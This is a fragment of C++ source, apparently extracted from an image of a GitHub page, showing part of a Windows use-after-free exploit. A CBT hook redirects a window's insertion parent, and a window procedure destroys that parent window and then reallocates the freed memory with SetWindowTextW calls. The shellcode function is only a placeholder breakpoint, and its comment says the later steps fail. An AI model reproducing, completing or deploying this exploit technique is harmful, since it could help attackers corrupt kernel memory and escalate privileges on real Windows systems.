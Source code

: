     // The hook needed for set the parent for the window (the one we will destroy
    // later)
    LRESULT CALLBACK CBT_exploit(_In_ int nCode, _In_ WPARAM wParam, _In_ LPARAM lParam)
    {
        CBT_CREATEWND *info = (LPCBT_CREATEWND) lParam;

        if (nCode == HCBT_CREATEWND)
        {
            std::cout << "Win parrent : " << std::hex << win2 << std::endl;
            info->hwndInsertAfter = (HWND) win2;
        }

        return 0;
    }

    // The msg function which does the work for the msg and in there is the destroy
    // and the realloc for the use-after-free
    LRESULT CALLBACK WndProc (HWND hwnd, UINT msg, WPARAM wParam, LPARAM lParam)
    {
        if (msg == WM_NCCREATE)
        {
            // here we destroy the window we have pass as the parent
            if (!DestroyWindow(win2))
            {
                std::cout << "PROBLEM : not destroy" << std::endl;
                exit(0);
            }
            std::cout << "The window have been destroy" << std::endl;

            // we reallocate the size of the window
            if (!SetWindowTextW(win3, str))
            {
                std::cout << "SetWindowTextW3 fail" << std::endl;
                exit(0);
            }
            // In some case the first allocation with not be at the same
            // position than the window we just destroy so we do it twice
            if (!SetWindowTextW(win4, str))
            {
                std::cout << "SetWindowTextW4 fail" << std::endl;
                exit(0);
            }
            std::cout << "The realloc have being done" << std::endl;
        }
        // just returning the standard stuff for all the message
        return DefWindowProc (hwnd, msg, wParam, lParam);
    }

    int shellcode()
    {
        // I should put a real shellcode here but that will do it for now
        __asm _emit 0xcc // int 3
        return 0;
        // everything after that fail because I don't fix the window...
    }
